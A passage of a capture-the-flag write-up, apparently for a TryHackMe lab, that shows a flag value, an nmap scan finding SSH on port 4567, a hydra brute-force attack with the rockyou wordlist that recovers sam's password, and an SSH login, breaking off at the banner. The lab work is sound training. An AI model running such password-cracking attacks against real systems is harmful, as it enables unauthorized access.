   ~~~bash
  cat user.txt
  5W7WkjxBWwhe3RNsWJ3Q
  ~~~

  5W7WkjxBWwhe3RNsWJ3Q

---

### [Task 25] [Day 20] Cronjob Privilege Escalation

- What port is SSH running on

  **Solution:**

  ~~~bash
  $ nmap 10.10.162.215 -sV
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 14:54 CEST
  Nmap scan report for 10.10.162.215
  Host is up (0.074s latency).
  Not shown: 999 closed ports
  PORT     STATE SERVICE VERSION
  4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds
  
  ~~~

- Crack sam's password and read flag1.txt

  **Solution:**

  ~~~bash
  $ hydra -l sam -P ~/wordlist/rockyou.txt 10.10.162.215 ssh -s 4567
  Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 14:58:27
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344409 login tries (l:1/p:14344409), ~896526 tries per task
  [DATA] attacking ssh://10.10.162.215:4567/
  [4567][ssh] host: 10.10.162.215   login: sam   password: chocolate
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 2 final worker threads did not complete until end.
  [ERROR] 2 targets did not resolve or could not be connected
  [ERROR] 0 target did not complete
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-26 14:58:42
  
  $ ssh sam@10.10.162.215 -p 4567
  The authenticity of host '[10.10.162.215]:4567 ([10.10.162.215]:4567)' can't be established.
  ECDSA key fingerprint is SHA256:vTkkUciWxY5eNx5F+Fg7V7d1pPaJPErOfZMcwArZ9Fs.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '[10.10.162.215]:4567' (ECDSA) to the list of known hosts.
  sam@10.10.162.215's password: 
         .---.
        /     \
        \.@-@./
        /`\_/`\
       //  _  \\
      | \     )|_
     /`\_`>  <_/ \
     \__/'---'\__/
       tryhackme
  ~~~